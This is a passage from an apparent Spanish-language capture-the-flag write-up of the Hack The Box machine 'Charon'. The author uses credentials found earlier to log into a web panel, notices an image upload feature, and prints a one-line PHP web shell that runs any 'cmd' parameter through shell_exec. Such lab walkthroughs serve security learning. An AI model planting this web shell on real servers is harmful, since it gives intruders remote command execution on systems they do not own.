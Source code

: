 Ya tenemos unas credenciales a probar, así que validaremos en el panel de login (**Nota**: Simpre guardar las credenciales que vayamos encontrando):

![](/assets/images/htb-charon/charon-web6.png)

Aqui algo que ya nos llama la atención es que podemos super archivos y en específico, imágenes.

![](/assets/images/htb-charon/charon-web7.png)

Vamos a tratar de subir un archivo php el cual nos ayude a ejecutar comandos a nivel de sistema.

```php
<?php
        echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

